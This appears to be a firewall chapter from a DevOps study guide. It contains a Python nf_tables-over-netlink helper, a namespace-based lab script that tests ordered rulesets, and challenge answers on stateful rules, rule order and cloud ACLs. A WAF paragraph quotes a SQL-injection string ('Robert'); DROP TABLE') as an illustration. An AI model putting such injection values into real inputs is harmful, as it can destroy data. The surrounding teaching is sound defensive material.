"""Tiny nf_tables-over-netlink helper (stand-in for the nft binary, which is not installed).
Builds: table ip fw ; chain input (hook input, priority 0, policy P) ; rules from a small list."""
import socket, struct, sys
NLM_F_REQUEST, NLM_F_ACK, NLM_F_CREATE, NLM_F_APPEND = 1, 4, 0x400, 0x800
def nla(t, payload, nested=False):
    if isinstance(payload, str): payload = payload.encode() + b"\0"
    l = 4 + len(payload); return struct.pack("HH", l, t | (0x8000 if nested else 0)) + payload + b"\0" * (-l % 4)
be32 = lambda v: struct.pack(">I", v)
def msg(mtype, flags, family, body, seq):
    p = struct.pack("BBH", family, 0, 0) if mtype != 0x10 else struct.pack("BBH", 0, 0, socket.htons(10))
    h = struct.pack("IHHII", 16 + len(p) + len(body), mtype, flags, seq, 0); return h + p + body
def nft(m): return (10 << 8) | m
def expr(name, data=None):
    body = nla(1, name)
    if data is not None: body += nla(2, data, True)
    return nla(1, body, True)
def immediate_verdict(code):  # 0 drop, 1 accept
    return expr("immediate", data=nla(1, be32(0)) + nla(2, nla(2, nla(1, be32(code & 0xffffffff)), True), True))
def cmp_eq(data):  return expr("cmp", data=nla(1, be32(1)) + nla(2, be32(0)) + nla(3, nla(1, data), True))
def meta_l4proto(): return expr("meta", data=nla(1, be32(1)) + nla(2, be32(16)))
def payload(base, off, ln): return expr("payload", data=nla(1, be32(1)) + nla(2, be32(base)) + nla(3, be32(off)) + nla(4, be32(ln)))
def ct_state(mask):
    return (expr("ct", data=nla(1, be32(1)) + nla(2, be32(0))) +
            expr("bitwise", data=nla(1, be32(1)) + nla(2, be32(1)) + nla(3, be32(4)) +
                 nla(4, nla(1, struct.pack("=I", mask)), True) + nla(5, nla(1, struct.pack("=I", 0)), True)) +
            expr("cmp", data=nla(1, be32(1)) + nla(2, be32(1)) + nla(3, nla(1, struct.pack("=I", 0)), True)))  # neq 0
def reject(kind=0, code=None):
    d = nla(1, be32(kind))
    if code is not None: d += nla(2, bytes([code]))
    return expr("reject", data=d)
def tcp_dport(port):  return meta_l4proto() + cmp_eq(b"\x06") + payload(2, 2, 2) + cmp_eq(struct.pack(">H", port))
def saddr(ip4):       return payload(1, 12, 4) + cmp_eq(socket.inet_aton(ip4))
def ctstate(*names):
    bits = {"invalid": 1, "established": 2, "related": 4, "new": 8}; return ct_state(sum(bits[n] for n in names))
VERDICT = {"accept": immediate_verdict(1), "drop": immediate_verdict(0)}
def apply(policy, rules):
    """rules: list of (match_exprs_bytes, verdict_name)"""
    s = socket.socket(socket.AF_NETLINK, socket.SOCK_RAW, 12); s.bind((0, 0))
    f = NLM_F_REQUEST | NLM_F_ACK | NLM_F_CREATE; seq = 1
    out = msg(0x10, NLM_F_REQUEST, 0, b"", seq); seq += 1
    out += msg(nft(0), f, 2, nla(1, "fw"), seq); seq += 1
    hook = nla(1, be32(1)) + nla(2, be32(0))
    out += msg(nft(3), f, 2, nla(1, "fw") + nla(3, "input") + nla(4, hook, True) + nla(5, be32(1 if policy == "accept" else 0)) + nla(7, "filter"), seq); seq += 1
    for match, verdict in rules:
        exprs = nla(1, "fw") + nla(2, "input") + nla(4, match + VERDICT[verdict], True)
        out += msg(nft(6), f | NLM_F_APPEND, 2, exprs, seq); seq += 1
    out += msg(0x11, NLM_F_REQUEST, 0, b"", seq)
    s.send(out); s.settimeout(2); errs = 0
    try:
        while True:
            d = s.recv(65536); off = 0
            while off < len(d):
                l, t, fl, sq, pid = struct.unpack_from("IHHII", d, off)
                if t == 2:
                    e, = struct.unpack_from("i", d, off + 16)
                    if e: errs += 1; print("netlink error", e, "for seq", sq, file=sys.stderr)
                off += (l + 3) & ~3
            if errs or sq >= seq - 1: break
    except socket.timeout: pass
    return errs
# ---- the named rulesets used by the lab -------------------------------------------------------
VERDICT["reject_rst"] = reject(1)          # reject with tcp reset
VERDICT["reject_admin"] = reject(0, 13)    # reject with icmp code 13 (administratively prohibited)
A_IP = "10.0.1.10"
EST = (ctstate("established", "related"), "accept")
SCEN = {
 "s0_policy_drop_only": ("drop", []),
 "s1_established":      ("drop", [EST]),
 "s2_allow80":          ("drop", [EST, (tcp_dport(80), "accept")]),
 "s3_reject8080":       ("drop", [EST, (tcp_dport(80), "accept"), (tcp_dport(8080), "reject_rst")]),
 "o1_accept_then_drop": ("drop", [EST, (tcp_dport(80), "accept"), (saddr(A_IP), "drop")]),
 "o2_drop_then_accept": ("drop", [EST, (saddr(A_IP), "drop"), (tcp_dport(80), "accept")]),
 "stateless_in80":      ("drop", [(tcp_dport(80), "accept")]),
 "r1_reject_admin":     ("drop", [EST, (tcp_dport(80), "accept"), (tcp_dport(8080), "reject_admin")]),
}
if __name__ == "__main__" and len(sys.argv) > 1:
    pol, rules = SCEN[sys.argv[1]]; print("nf_tables rules applied:", sys.argv[1], "errors:", apply(pol, rules))
```

</details>

2. Save this runner as `~/lab/fw.sh`. For one named ruleset it builds client A, router and server B, starts web servers (80 and 8080 on B, 8000 on A), prints a no-firewall baseline, installs the ruleset on B and repeats the tests.

```bash
export PATH=$HOME/.local/bin:$PATH
scen() {
unshare -rn bash -c '
exec 2>&1
SC=$1
ip link set lo up
unshare -n sleep infinity & A=$!
unshare -n sleep infinity & B=$!
sleep 0.4
a() { nsenter -t $A -n "$@"; }; b() { nsenter -t $B -n "$@"; }
ip link add ra type veth peer name a0; ip link set a0 netns $A
ip link add rb type veth peer name b0; ip link set b0 netns $B
ip addr add 10.0.1.1/24 dev ra; ip link set ra up
ip addr add 10.0.2.1/24 dev rb; ip link set rb up
sysctl -qw net.ipv4.ip_forward=1
a ip link set lo up; a ip addr add 10.0.1.10/24 dev a0; a ip link set a0 up; a ip route add default via 10.0.1.1
b ip link set lo up; b ip addr add 10.0.2.10/24 dev b0; b ip link set b0 up; b ip route add default via 10.0.2.1
cd /tmp
b python3 -m http.server 80 --bind 10.0.2.10 >/tmp/h80.log 2>&1 & P1=$!
b python3 -m http.server 8080 --bind 10.0.2.10 >/tmp/h8080.log 2>&1 & P2=$!
a python3 -m http.server 8000 --bind 10.0.1.10 >/tmp/h8000.log 2>&1 & P3=$!
for i in $(seq 60); do (b ss -ltn | grep -q ":80 ") && (b ss -ltn | grep -q ":8080 ") && (a ss -ltn | grep -q ":8000 ") && break; sleep 0.2; done
echo "=== no firewall (baseline)"
a curl -sS -m3 -o /dev/null -w "A->B:80   http=%{http_code} t=%{time_total}s\n" http://10.0.2.10:80/
a curl -sS -m3 -o /dev/null -w "A->B:9999  http=%{http_code} t=%{time_total}s\n" http://10.0.2.10:9999/
b curl -sS -m3 -o /dev/null -w "B->A:8000 http=%{http_code} t=%{time_total}s\n" http://10.0.1.10:8000/
echo "=== scenario $SC on B"
b python3 ~/lab/nfl.py $SC
a curl -sS -m3 -o /dev/null -w "A->B:80   http=%{http_code} t=%{time_total}s\n" http://10.0.2.10:80/ ; true
a curl -sS -m3 -o /dev/null -w "A->B:8080 http=%{http_code} t=%{time_total}s\n" http://10.0.2.10:8080/ ; true
a nc -zv -w3 10.0.2.10 8080; true
a ping -c1 -W1 10.0.2.10 | sed -n 2p; true
b curl -sS -m3 -o /dev/null -w "B->A:8000 http=%{http_code} t=%{time_total}s\n" http://10.0.1.10:8000/ ; true
kill $P1 $P2 $P3 $A $B 2>/dev/null
' bash $1
}
scen "$1"
```

3. Run each ruleset and compare with the table in "The decisions on real output": `bash ~/lab/fw.sh s0_policy_drop_only`, then `s1_established`, `s2_allow80`, `s3_reject8080`, `o1_accept_then_drop`, `o2_drop_then_accept`, `stateless_in80`, `r1_reject_admin`. A run takes a few seconds, plus 3 seconds per timeout.

Expected result for `s2_allow80` (the times vary; the pattern does not):

```text
=== scenario s2_allow80 on B
nf_tables rules applied: s2_allow80 errors: 0
A->B:80   http=200 t=0.001105s
curl: (28) Connection timed out after 3002 milliseconds
A->B:8080 http=000 t=3.002410s
nc: connect to 10.0.2.10 port 8080 (tcp) timed out: Operation now in progress
B->A:8000 http=200 t=0.001198s
```

Check: for `s0_policy_drop_only` the last line must be a timeout (`B->A:8000 http=000`), for `s3_reject8080` the `8080` line must return in well under a millisecond with `Connection refused`, and for `r1_reject_admin` `nc` must print `No route to host`. If everything times out, the helper reported errors: run it by hand inside a namespace (`unshare -rn python3 ~/lab/nfl.py s2_allow80`) and read the `netlink error` lines. If `unshare -rn` itself is refused, your kernel or distribution disables unprivileged user namespaces; run the same steps as root with `ip netns` instead (not verified here).

The same rulesets written for the `nft` program (syntax not verified here, apply it on a machine that has `nft`, inside the same kind of namespace):

```bash
nft add table ip fw
nft add chain ip fw input '{ type filter hook input priority 0 ; policy drop ; }'
nft add rule ip fw input ct state established,related accept      # row 3 and onward
nft add rule ip fw input tcp dport 80 accept                      # row 4 (s2_allow80)
nft add rule ip fw input tcp dport 8080 reject with tcp reset     # row 5 (s3_reject8080)
nft list ruleset                                                  # shows the rules in evaluation order
```

**Stretch.** Reverse the two rules of `o1_accept_then_drop` yourself (add a ruleset to `SCEN`) and predict, before running, which of A's two ports stops working. Then change the helper's hook number from `1` (input) to `2` (forward) and put the rules on the router instead, which reproduces the "port forward works one way" failure.

🔬 **Section Challenge — Stateless versus stateful filtering**

**Challenge 1 (Debugging):** After a security review, an admin sets the server's INPUT policy to drop and allows only inbound TCP 80 and 443. Visitors still reach the site, but `apt update`, DNS lookups and calls to a payment API from that server all hang. What is wrong, what single rule fixes it, and why does it not weaken the policy?

<details><summary>Answer</summary>

The rules accept new inbound connections to 80 and 443 but nothing accepts the *replies* to connections the server starts itself: those replies arrive inbound, addressed to a random high port, so the drop policy discards them. The lab reproduced this exactly (`B->A:8000` timed out under a drop policy, and also with only `tcp dport 80 accept`). The fix is one rule near the top of the chain: `ct state established,related accept` (nftables) or `-m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT` (iptables). It does not weaken the policy because it only matches packets that belong to a connection the server (or an already-allowed inbound connection) opened; an unsolicited packet has no conntrack entry and still falls through to the drop policy. Opening the high port range instead would allow unsolicited traffic to every service on those ports, which is the thing the policy exists to prevent.

</details>

**Challenge 2 (Design):** You operate (a) an internet-facing SSH bastion and (b) an internal database that application teams sometimes try to reach from the wrong subnet. For each, say whether the denied connections should be dropped or rejected, and what each choice does to the person debugging.

<details><summary>Answer</summary>

(a) Drop, for sources outside your allow-list: a scanner learns nothing about the host and its probes are slowed to the SYN retry schedule (`tcp_syn_retries = 6` here, about 127 seconds before giving up). The cost is that your own engineer who mistypes the allow-list also sees only a hang, so log the drops (rate-limited) and name the rule. (b) Reject (with a TCP reset): a team trying the wrong subnet gets `Connection refused` in under a millisecond, as the lab measured, and can tell "blocked" from "down" immediately; the internal network is not an audience you need to keep in the dark. If you reject with an ICMP code instead, expect clients to print `No route to host`, which people confuse with a routing fault.

</details>

🔬 **Section Challenge — Rule order**

**Challenge 1 (Debugging):** A ruleset has `tcp dport 443 accept` followed by `ip saddr 203.0.113.0/24 drop`. Traffic from that range still reaches port 443 although the drop rule's counter is zero. Why, and how do you fix it without opening anything else?

<details><summary>Answer</summary>

First match wins, so the broad `tcp dport 443 accept` decides the outcome for every packet to port 443 before the narrower drop rule is ever evaluated; its zero counter is the proof, and the accept rule's counter is the one that rises. The lab shows the identical pair of rules giving `200` in one order and a timeout in the other. Fix by moving the drop above the accept (in nftables use `nft insert rule ... position` or reload the corrected file; in iptables use `-I INPUT 1`). If the ruleset is generated, put the denies in a block before the allows so the order is a property of the template, not of how rules were added.

</details>

**Challenge 2 (Audit):** In the original iptables example in this chapter, the `INVALID` drop and the `connlimit` rule came after the accepts for ports 22, 80, 443, 53 and 5432. Which traffic did those two rules actually protect against?

<details><summary>Answer</summary>

Almost none. Both rules came after the accepts for ports 22, 80, 443, 53 and 5432, so an invalid packet or a flood of new connections to any of those ports had already matched an ACCEPT and left the chain; the two rules only saw traffic to *other* ports, which the drop policy would have discarded anyway. The corrected ruleset above moves them to just after the `ESTABLISHED,RELATED` rule. Moving `connlimit` that far forward has a cost you must weigh: it also counts connections to the accepted ports, so many users behind one NAT address can hit the limit. The general lesson is that a protective rule must sit *before* the rules that would otherwise accept the traffic it targets.

</details>

🔬 **Section Challenge — Cloud firewalls**

**Challenge 1 (Debugging):** In a cloud VPC an engineer creates a new network ACL for a subnet, adds an inbound rule allowing TCP 443 from anywhere, and associates it. The security group on the instances already allows 443, yet the site is unreachable. What is wrong? (AWS behaviour as remembered from its documentation, not run here.)

<details><summary>Answer</summary>

A custom network ACL denies all traffic in both directions until rules are added, and it is stateless. The inbound rule lets the request in, but the reply leaves toward the client's random high port, and no outbound rule allows it, so the reply is dropped at the subnet edge. Add an outbound rule for the ephemeral port range (documentation suggests 1024-65535) to the clients' addresses, or recheck whether you needed a custom NACL at all: the default NACL allows everything, and a security group already gives stateful per-instance control. The same stateless problem was reproduced in the lab with a single `tcp dport 80 accept` rule and no `ct` rule.

</details>

**Challenge 2 (Design):** Your web tier must accept traffic only from the load balancer and your database only from the web tier, in a cloud where instances are replaced daily and get new IP addresses. Would you write the rules with IP ranges or with references between security groups, and what do you give up?

<details><summary>Answer</summary>

Reference groups: allow the database group inbound from the web group, and the web group inbound from the load balancer's group. The rules then follow instances as they are replaced, with no list of addresses to maintain, and a new instance that joins the web group is allowed immediately. What you give up is visibility and portability: the rule no longer shows a CIDR you can read in a log or reproduce on-premises, group membership becomes the real policy (so who may attach a group to an instance is now a security question), and cross-account or cross-VPC references need extra configuration. Use IP ranges where the peer is outside your control and stable, such as a partner's fixed egress addresses.

</details>

## 🔗 Cross-References

| Topic                   | Related Content                                                                |
| ----------------------- | ------------------------------------------------------------------------------ |
| **iptables rules**      | [DevOps Fundamentals](00_DevOps_Fundamentals.md) — Linux admin                 |
| **AWS Security Groups** | [Cloud Networking](13_Cloud_Networking_VPC.md) — Terraform SG                  |
| **K8s NetworkPolicy**   | [Networking & Security](02_Networking_Security.md) — pod firewalls             |
| **SQL injection**       | [SQL Security](../08_SQL/33_SQL_Security_Injection.md) — parameterized queries |
| **TLS/HTTPS**           | [Ch 09: TLS](09_TLS_Encryption.md) — encryption for transit                    |
| **DevSecOps pipeline**  | [Networking & Security](02_Networking_Security.md) — SAST/DAST                 |
| **TCP states**          | [Ch 06: TCP/UDP](06_TCP_UDP_Deep_Dive.md) — conntrack state matching           |


---

## Reality Check

**"A firewall blocks bad traffic"** — A firewall enforces a POLICY you write, and it can only block what the policy anticipated: it has no concept of "bad" beyond your rules (the malicious request over an allowed port on an allowed path sails through — the firewall sees a permitted connection, [security]'s app-layer attacks are invisible to it), stateful firewalls track connections (allowing return traffic for outbound connections — the mechanism, not magic), and the policy's default direction is everything (default-deny with explicit allows is the secure posture; default-allow with explicit denies is the leaky one that ships in a hurry). "Blocks bad traffic" anthropomorphizes a rule-matcher — it blocks what your rules say to block, which is why rule quality is the whole game.

**"Layer 4 and Layer 7 firewalls are just newer and older"** — They inspect DIFFERENT things and defend different attacks: L4 (network firewalls, security groups) filters on IP/port/protocol — fast, coarse, blind to content (it can allow port 443 but not tell an API call from an attack), while L7 (WAF, application firewalls) parses the actual protocol — HTTP methods, paths, payloads, headers — enabling SQL-injection/XSS pattern blocking, rate limiting per endpoint, and geo/bot rules. They are complementary layers ([defense in depth]): L4 controls reachability, L7 inspects the permitted traffic's content. Choosing one as "the firewall" leaves the other layer's attack class undefended.

**"WAF rules stop application attacks"** — A WAF is a PATTERN-MATCHING backstop with real limits: it catches known attack signatures (helpful against automated scanning and common payloads) but is bypassable (encoding tricks, novel payloads, the attack that does not match a signature — [security]'s point that parameterized queries, not WAF patterns, are the actual injection fix), can false-positive on legitimate traffic (the WAF rule that blocks a valid request containing a SQL keyword — the customer named Robert'); DROP TABLE), and creates false confidence (the team that skips secure coding because "the WAF will catch it"). A WAF is a useful layer that buys time and blocks noise; it is not a substitute for the application not being vulnerable in the first place.

**"Access control is authentication"** — Authentication (who are you) and AUTHORIZATION (what may you do) are distinct, and the expensive breaches live in the second: the authenticated user who accesses another user's data (IDOR — the missing ownership check, [security]'s most common real finding), the over-privileged service account (the [cloud IAM] wildcard), the role that accumulated permissions nobody revoked. Authentication is largely solved (use the identity provider); authorization is the ongoing hard problem — modeling it (RBAC, ABAC, relationship-based), enforcing it at every access (not just the UI — the API that trusts the client's hidden-button), and auditing it (who can access what, reviewed). Conflating the two ships apps that verify identity and then trust everyone equally.

**"More restrictive access is more secure but less usable"** — The trade-off is real at the extremes but mostly false in the middle, where good design gives BOTH: least-privilege that is also frictionless (the SSO-plus-scoped-roles that grants exactly what the job needs automatically — [cloud IAM]), just-in-time elevation (request-and-approve for the rare privileged action rather than standing admin — reducing the always-on attack surface without blocking work), and the observation that overly-broad access is often LESS usable at the org level (the security incident, the audit failure, the "who has access to this" nobody can answer). The mature framing is not restrictive-versus-usable but well-modeled-versus-badly-modeled: bad access control is both insecure AND annoying (the wildcard that is a risk, plus the manual approval for everything because nobody trusts the model).

**"A default-deny firewall means only the ports I opened can be used"** — A default-deny INPUT policy also denies the *replies* to everything the machine itself starts (package updates, DNS, API calls) unless a stateful `established,related` rule exists, which is why the order and content of the first rule matter as much as the list of open ports. Measured in this chapter's lab: with a drop policy and no rules, the server's own outbound request timed out; with one `ct state established,related accept` rule it worked, and unsolicited inbound traffic was still dropped.

**"If a rule is in the list, it is in effect"** — Rules are evaluated top to bottom and the first match decides, so a rule below a broader match never runs. The lab used the same two rules in opposite order and got `HTTP 200` in one and a timeout in the other; the only symptom of the ineffective order is a rule whose packet counter stays at zero.

**"Dropping is always more secure than rejecting"** — Drop hides the host from scanners, but it does not make a service safer, it makes failures slow (about 127 seconds before a client gives up here) and hard to diagnose for your own users. Use drop for what you want unseen and reject where fast, explicit failure helps; either way the service is equally protected, because both discard the packet.

**"Security groups and network ACLs are two copies of the same firewall"** — They differ in the two properties that decide outcomes: a security group is stateful and allow-only and attaches to an instance; a network ACL is stateless, ordered, can deny, and applies to a whole subnet, so it needs rules for the reply direction too. Treat them as different tools for different jobs (AWS behaviour from its documentation as remembered, not run here).

**"A firewall rule list shows what is protected"** — It shows what the *policy author remembered*. The default verdict decides everything else, and layers outside your rule list (Docker's own iptables rules, a cloud load balancer, NAT) can change what actually reaches a port. Test from the outside with `nc -zv -w3` and read the failure mode (refused, timed out, no route) rather than trusting the list.

## Books

Chapter numbers and titles are from [BOOKS.md](BOOKS.md), which read them from each book's own table of contents.

| Book | Read | What it adds beyond this chapter |
| --- | --- | --- |
| *TCP/IP Illustrated, Volume 1: The Protocols*, 2nd ed., Stevens and Fall (PAID, Addison-Wesley Professional, 2011) | Ch 7 Firewalls and Network Address Translation (NAT) | How filtering and translation interact, which is why rule order and state tracking matter; read it next to the table of rulesets above. |
| *Building Secure & Reliable Systems* (FREE) — https://sre.google/books/ (full text and TOC: https://google.github.io/building-secure-and-reliable-systems/raw/toc.html) | Ch 5 "Design for Least Privilege", Ch 10 "Mitigating Denial-of-Service Attacks" | Treats access control and denial-of-service as design problems with trade-offs, not only as rules to write; useful for deciding what a firewall should and should not be asked to do. |
